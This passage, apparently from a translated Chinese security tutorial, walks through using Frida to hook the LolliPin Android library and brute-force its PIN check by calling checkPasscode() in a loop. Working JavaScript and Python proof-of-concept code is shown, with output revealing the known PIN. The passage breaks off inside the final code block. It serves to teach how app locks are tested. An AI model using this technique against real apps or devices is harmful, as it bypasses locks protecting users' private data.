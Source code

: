 可以创建一个AppLockImpl的实例,但是为了节约内存我们直接调用已有的.分析发现AppLockImpl被调用在LockManager的getAppLock()中,这个就仅仅返回了AppLock对象.而AppLock是抽象类AppLockImpl的具现.

![](http://drops.javaweb.org/uploads/images/c9a684ab252189df346554adb7340f46fe4907e2.jpg)

LockManager有一个帮助方法用于返回自己的实例.

![](http://drops.javaweb.org/uploads/images/828b8b1eb7d172af4b0295bdd8a37853279d7624.jpg)

结合上面的分析,咱们可以通过LockManager.getInstance()得到LockManager的实例,再调用getAppLock()得到AppLock.最后就可以调用AppLock的 checkPasscode()方法了.

```
var LockManager = Dalvik.use("com.github.orangegangsters.lollipin.lib.managers.LockManager");
var LockManagerInstance = LockManager.getInstance();
var AppLock = LockManagerInstance.getAppLock();

```

通过for循环调用checkPasscode()来达到暴力破解的目的:

```
for(var i=1230; i<1235; i++)
{
    var result = AppLock.checkPasscode(i+"");
    send(i + ": " + result);
}

```

此循环将尝试1230到1235的pin码(已知PIN为1234...),最后利用空字符串将pin码连接起来做个强制转换再打印出来.运行脚本效果如下:

```
[*] Bruteforcing PIN code
[*] Testing PIN 1230: false
[*] Testing PIN 1231: false
[*] Testing PIN 1232: false
[*] Testing PIN 1233: false
[*] Testing PIN 1234: true

```

最后完整的frida代码块如下:

```
# LolliPin bruteforce proof of concept
# Author: Dominic Chell - @domchell

import frida,sys

def print_result(message):
            print "[*] Testing PIN %s" %(message)

def on_message(message, data):
            print_result(message['payload'])

jscode = """

Dalvik.perform(function () {

    var LockManager = Dalvik.use("com.github.orangegangsters.lollipin.lib.managers.LockManager");
    var LockManagerInstance = LockManager.getInstance();
    var AppLock = LockManagerInstance.getAppLock();

    for(var i=1230; i<1235; i++)
    {
            var result = AppLock.checkPasscode(i+"");
        send(i + ": " + result);
    }
```